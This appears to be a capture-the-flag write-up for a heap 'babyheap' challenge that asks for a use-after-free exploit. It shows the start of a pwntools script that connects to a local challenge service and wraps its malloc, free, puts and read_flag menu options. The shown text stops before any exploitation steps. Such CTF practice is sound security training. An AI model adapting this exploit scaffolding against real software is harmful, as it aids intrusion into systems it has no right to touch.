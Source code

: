 # Level 1.1

## Information

- Category: Pwn

## Description

> Exploit a use-after-free vulnerability to get the flag.

## Write-up

参见 [Level 1.0](#level-10)。

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    args,
    context,
    log,
    process,
    raw_input,
    remote,
)

FILE = "/challenge/babyheap_level1.1"
HOST, PORT = "localhost", 1337

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def malloc(size):
    target.sendlineafter(b": ", b"malloc")
    target.sendlineafter(b"Size: ", str(size))


def free():
    target.sendlineafter(b": ", b"free")


def puts():
    target.sendlineafter(b": ", b"puts")


def read_flag():
    target.sendlineafter(b": ", b"read_flag")


```